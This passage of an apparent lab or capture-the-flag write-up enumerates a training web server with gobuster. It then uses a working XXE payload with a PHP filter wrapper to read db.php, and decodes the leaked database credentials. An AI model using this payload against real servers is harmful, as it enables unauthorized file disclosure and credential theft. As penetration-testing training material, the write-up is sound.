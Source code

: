 after some try i tried again content discovery with gobuster .

```
gobuster dir -u http://10.129.98.250:80/ -w $BIG -t 50 -x php
```

`Output:`
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.98.250:80/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /home/batmanly/SecLists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/05/31 08:48:25 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.129.98.250/assets/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.98.250/css/]   
/db.php               (Status: 200) [Size: 0]                                     
/index.php            (Status: 200) [Size: 25169]                                 
/js                   (Status: 301) [Size: 311] [--> http://10.129.98.250/js/]    
/portal.php           (Status: 200) [Size: 125]                                   
/resources            (Status: 301) [Size: 318] [--> http://10.129.98.250/resources/]
/server-status        (Status: 403) [Size: 278]                                      

```
let's read db.php with xxe vulnerability.
## Web exploitation
we will use this xxe payload to read db.php with PHP filter wrapper. than we will decode it.
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>asfsdaf</cwe>
		<cvss>sdafdsa</cvss>
		<reward>222</reward>
		</bugreport>
```

```
└─▪echo 'PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=' | base64 -d                                                                                                        
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>

```